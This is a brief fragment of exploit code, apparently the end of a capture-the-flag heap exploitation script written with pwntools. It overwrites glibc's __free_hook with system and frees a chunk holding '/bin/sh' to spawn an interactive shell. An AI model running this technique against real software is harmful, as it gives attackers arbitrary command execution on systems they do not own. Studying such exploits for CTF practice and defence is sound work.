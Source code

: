 ```
add_seed(0x8, p64(libc.sym['__free_hook']))  # 3
add_seed(0x8, b"/bin/sh\x00")  # 5
add_seed(0x8, p64(libc.sym['system']))  # 7

delete_seed(5)

p.interactive()
```
